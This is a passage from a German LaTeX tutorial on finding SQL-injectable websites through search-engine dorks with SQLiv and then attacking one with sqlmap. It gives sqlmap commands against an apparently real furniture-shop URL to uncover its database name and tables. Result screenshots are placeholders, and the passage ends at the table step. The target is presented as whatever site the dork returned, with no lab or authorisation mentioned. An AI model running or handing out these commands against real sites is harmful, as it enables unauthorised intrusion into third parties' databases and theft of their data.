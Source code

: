 Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	\texttt{[image: sqllive.png]}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}

\begin{Listing}[h]
	\begin{lstlisting}
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
	\end{lstlisting}
	\caption{Aufdeckung vom Datenbankname}
\end{Listing}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{figure}[h]
	\centering
	\texttt{[image: ac.png]}
	\caption{Ergebnis: Datenbankname}
\end{figure}

Der Datenbankname wurde jetzt erhalten.\\

\textbf{B. Tabellenname aufdecken}

\begin{Listing}[h]
	\begin{lstlisting}
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
	\end{lstlisting}
	\caption{Aufdeckung vom Tabellenname}
\end{Listing}

Das Ergebnis sollte so aussehen:
\newpage

\begin{figure}[h]
	\centering
	\texttt{[image: resulttabellenname.png]}
	\caption{Ergebnis: Tabellenname}
\end{figure}

